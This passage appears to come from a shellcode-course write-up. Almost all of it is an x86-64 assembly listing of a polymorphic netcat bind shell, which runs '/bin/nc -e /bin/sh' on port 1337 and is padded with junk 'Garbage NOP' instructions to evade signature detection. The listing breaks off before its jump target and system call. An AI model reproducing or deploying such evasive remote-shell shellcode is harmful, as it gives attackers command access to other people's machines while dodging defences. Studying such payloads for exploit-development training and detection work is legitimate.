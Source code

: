 Once again, there isn't much to comment, other than the fact that we can apply the aforementioned polymorphic techniques against this shellcode.

###### Final code:

```term
global _start

_start:

xor    	rdx,rdx
nop                                                 ; Garbage NOP
nop                                                 ; Garbage NOP
mov 	rdi,0x636e2f6e69622fff
shr	rdi,0x08
dec al                                              ; Garbage NOP
push 	rdi
mov 	rdi,rsp

mov	rcx,0x68732f6e69622fff
shr	rcx,0x08
dec al                                              ; Garbage NOP


push 	rcx
inc cl                                              ; Garbage NOP
dec cl                                              ; Garbage NOP
mov	rcx,rsp

mov     rbx,0x652dffffffffffff
std                                                 ; Garbage NOP
cwd                                                 ; Garbage NOP
shr	rbx,0x30

cmc                                                 ; Garbage NOP

push	rbx
mov	rbx,rsp

mov	r10,0x37333331ffffffff
shr 	r10,0x20
std                                                 ; Garbage NOP
push 	r10
mov	r10,rsp

jmp short ip
continue:
pop 	r9

push	rdx  ;push NULL

push 	rcx  ;push address of 'bin/sh'
nop                                                 ; Garbage NOP
inc dl                                              ; Garbage NOP  
dec dl                                              ; Garbage NOP

push	rbx  ;push address of '-e'
inc cl                                              ; Garbage NOP
dec cl                                              ; Garbage NOP
nop                                                 ; Garbage NOP
push	r10  ;push address of '1337'

dec al                                              ; Garbage NOP

```
